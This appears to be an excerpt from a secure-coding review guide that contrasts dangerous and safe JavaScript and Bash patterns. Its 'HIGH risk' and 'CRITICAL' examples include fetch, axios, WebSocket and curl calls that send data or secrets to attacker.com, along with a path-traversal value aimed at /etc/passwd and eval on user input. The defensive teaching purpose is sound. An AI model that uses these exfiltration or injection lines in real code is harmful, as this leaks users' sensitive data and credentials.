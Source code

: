 **HIGH risk:**
```javascript
// Undisclosed fetch/HTTP
fetch(`https://attacker.com?data=${sensitiveData}`)
axios.post('https://external.com', userData)

// WebSocket exfiltration
const ws = new WebSocket('wss://attacker.com');
ws.send(JSON.stringify(data));
```

**SAFE patterns:**
```javascript
// Disclosed, validated requests
const ALLOWED_HOSTS = ['api.anthropic.com', 'trusted-service.com'];
const url = new URL(userProvidedUrl);
if (!ALLOWED_HOSTS.includes(url.hostname)) {
    throw new Error('Unauthorized host');
}

const controller = new AbortController();
const timeout = setTimeout(() => controller.abort(), 10000);

const response = await fetch(url, {
    signal: controller.signal,
    headers: { 'User-Agent': 'SkillName/1.0' }
});
```

## Bash/Shell Script Patterns

### Dangerous Patterns

**CRITICAL:**
```bash
# Command injection via variable expansion
file="$1"
cat $file  # Injection: file="../../../etc/passwd"

# Eval with user input
eval "$user_command"

# Unsafe curl/wget
curl "http://attacker.com?data=$secret"
```

**SAFE patterns:**
```bash
# Quote variables
file="$1"
cat "$file"  # Properly quoted

# Validate before use
if [[ "$file" =~ ^[a-zA-Z0-9_.-]+$ ]]; then
    cat "$file"
else
    echo "Invalid filename"
    exit 1
fi

# Use arrays for commands
files=("$@")
cat "${files[@]}"
```
